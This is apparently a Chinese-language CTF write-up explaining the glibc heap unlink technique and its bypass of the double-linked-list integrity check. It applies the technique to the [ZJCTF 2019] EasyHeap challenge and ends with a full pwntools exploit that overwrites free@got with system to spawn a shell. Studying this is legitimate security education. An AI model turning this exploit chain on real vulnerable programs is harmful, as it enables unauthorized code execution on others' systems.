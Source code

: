```yaml
---
title: unlink 
tags: [ctf-pwn]
date: 2022-11-25 10:19:00
categories: [ctf-pwn]
excerpt: unlink
---
```


原理

> 以下内容一律假设 sz = 4 bytes  ，32位系统

#### unlink时向任意地址写入数据原理

假设需要从bin中摘除一个**首地址为P**的chunk

32位系统下，fd相对于块首的偏移为8（prevsize和size都是4字节），bk偏移为12

即 `fd = P+8 ` ，`bk = P+12`

```C
// unlink时需要 将P.fd指向的块的bk 赋值为 P.bk上的值
*(*(P+8)+12) = *(P+12)
// 将P.bk指向的块的fd 赋值为 P.fd上的值
*(*(P+12)+8) = *(P+8)
```

假设想要向0x4000000C这个地址上写入0xdeadbeef这个值

只需将`*(P+8)`赋值为0x40000000，将`*(P+12)`赋值为0xdeadbeef，在unlink时就会完成赋值

这种方法是将fd设置为了target addr - 12 ，bk设置为了expect value

> 也可以将fd设置为expect value，bk设置为target addr - 8，但是后文默认均使用前一种攻击方法

unlink漏洞同时向两个地址进行了写入，所以在保证targe taddr -12 可以写入的同时，也要保证expect value + 8 有写入权限

#### 加入检查机制之后

```C
FD = P->fd;
BK = P->bk;
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      
  malloc_printerr (check_action, "corrupted double-linked list", P, AV); 
FD->bk = BK;
BK->fd = FD;
```

因此溢出时需要额外保证以下条件

```
*(*(P+8) +12) == P
*(*(P+12)+ 8) == P
```

所以需要找到堆管理列表里面指向chunk P的指针**ptr**，让P的fd指向ptr-12，P的bk指向ptr-8，这样P->fd->bk指向P，P->bk->fd也指向P。

绕过if判断之后，下面两条赋值语句首先将 FD->bk（也就是ptr）指向了BK，再将BK->fd（还是ptr，又改变了一次ptr）指向了FD。

因此后面这两条赋值语句确实完成了FD和BK unlink 的效果，唯一被改变的是ptr，它从原本指向chunk p，变成了*(ptr - 12)





### 题目链接

<https://buuoj.cn/challenges#[ZJCTF%202019]EasyHeap>

#### 漏洞

很明显在`ceate_heap`中size并没有存下来，然后`edit_heap`时也是用户自己输入size来编辑

因此可以溢出

#### 利用

checksec发现没有开启PIE，heaparray的地址可以直接使用

1. 首先申请三个chunk

   ```python
   add(0x90,b"MMMM")
   add(0x90,b"MMMM")
   add(0x20,b"/bin/sh\x00")
   ```

2. 构造一个unlink需要在第一个chunk内构造一个fakechunk

   ```python
   fake_chunk = p64(0)+p64(0x91) + p64(heaparray_addr-0x18) + p64(heaparray_addr-0x10)
   fake_chunk = fake_chunk.ljust(0x90,b'M')
   fake_chunk += p64(0x90) + p64(0xa0)
   edit(0,0x100,fake_chunk)
   ```

   ![](/img/[ZJCTF2019]EasyHeap/1.jpg)

   对于chunk 0，`fd = heaparray - 0x18` `bk = heaparray - 0x10`，unlink chunk 0 时会将heaparray[0]指向`heaparray - 0x18`

3. 这时delete(1)，会将chunk 1 和 fakechunk 合并起来放入 unsorted bin

   ![](/img/[ZJCTF2019]EasyHeap/2.jpg)

   查看heaparray地址上的值：

   ![](/img/[ZJCTF2019]EasyHeap/3.jpg)

   说明fakechunk成功完成unlink操作，heaparray[0]指向了0x6020c8

4. 这时edit(0)会从0x6020c8这个地址开始写，因此

   ```python
   payload = p64(0)*3 +p64(free_got)
   edit(0,0x20 ,payload)
   ```

   又一次覆盖了heaparray[0]，指向了`free@got`

5. 这时edit(0)会修改`free@got`的内容

   ```python
   edit(0,8,p64(system_plt))
   ```

   将其函数改为system函数的plt表

   

6. delete(2)会调用free("/bin/sh")，而free函数被替换成了system，因此得到了shell

#### 完整exp

```python
from pwn import *
r = remote("node4.buuoj.cn",27679)
elf = ELF("./easyheap")
def add(size,content):
    r.recvuntil("Your choice :")
    r.sendline('1')
    r.recvuntil("Size of Heap : ")
    r.sendline(str(size))
    r.recvuntil("Content of heap:")
    r.sendline(content)
def edit(idx, size, content):
    r.recvuntil("Your choice :")
    r.sendline('2')
    r.recvuntil("Index :")
    r.sendline(str(idx))
    r.recvuntil("Size of Heap : ")
    r.sendline(str(size))
    r.recvuntil("Content of heap : ")
    r.sendline(content)
def delete(idx):
    r.recvuntil("Your choice :")
    r.sendline('3')
    r.recvuntil("Index :")
    r.sendline(str(idx))

heaparray_addr = 0x6020E0
system_plt = elf.plt['system']
free_got = elf.got['free']

add(0x90,b"MMMM")
add(0x90,b"MMMM")
add(0x20,b"/bin/sh\x00")
#gdb.attach(r)

fake_chunk = p64(0)+p64(0x91) + p64(heaparray_addr-0x18) + p64(heaparray_addr-0x10)
fake_chunk = fake_chunk.ljust(0x90,b'M')
fake_chunk += p64(0x90) + p64(0xa0)
edit(0,0x100,fake_chunk)
delete(1)
#gdb.attach(r)
payload = p64(0)*3 +p64(free_got)
edit(0,0x20 ,payload)
#gdb.attach(r)
edit(0,8,p64(system_plt))
delete(2)
r.interactive()
```

